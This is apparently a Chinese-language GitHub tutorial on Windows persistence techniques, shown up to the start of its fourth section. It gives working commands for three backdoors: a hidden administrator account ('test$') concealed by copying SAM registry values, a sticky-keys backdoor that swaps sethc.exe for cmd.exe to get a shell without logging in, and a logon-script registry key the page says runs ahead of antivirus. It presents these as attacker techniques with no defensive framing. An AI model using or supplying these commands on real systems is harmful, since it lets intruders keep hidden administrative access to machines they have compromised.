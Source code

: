 # 15种windows权限维持

## 1. 影子账户

    1. 使用如下命令创建隐藏账户并加入管理组

        ```cmd
            net user test$ 123456 /add
            net localgroup administrators test$ /add
        ```

        创建成功后使用net user 命令无法查看到此用户，但是在计算机管理页面中还可以看到，需要通过修改注册表信息来隐藏

    2. 打开注册表信息(HKEY_LOCAL_MACHINE\SAM\SAM)
        修改SAM权限，赋予adminitrators完全控制权限。

    3. 将Administrator用户对应项的F数据值复制到test$用户对应项的F数据值。

    4. 将test$和所对应项000003F1导出，分别命名为test.reg和1.reg

    5. 删除test$用户，将test.reg和1.reg导入注册表

        ```cmd
            net user test$ /del
            regedit /s test.reg
            regedit /s 1.reg
        ```

    6. 此时在用户组已经看不到test$用户，只能在注册表中能看到。

## 2. 粘滞键后门(亲测win11无效)

    粘滞键指的是电脑使用中的一种快捷键，专为同时按下两个或多个键有困难的人而设计的。粘滞键的主要功能是方便Shift等键的组合使用。一般的电脑连按五次shift会出现粘滞键提示。

    粘滞键位置：c:\windows\system32\sethc.exe
    命令
    ```cmd
        move sethc.exe sethc1.exe
        copy cmd.exe sethc.exe
    ```

    此时连按五次shift键即可启动cmd，而且不需要登录就可以执行

## 3. logon scripts后门

    Windows登录脚本，当用户登录时触发，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。

    注册表位置：HKEY_CURRENT_USER\Environment

    ```cmd
        REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\666.exe"    #创建键为：UserInitMprLogonScript，其键值为我们要启动的程序路径
    ```

## 4. 映像劫持
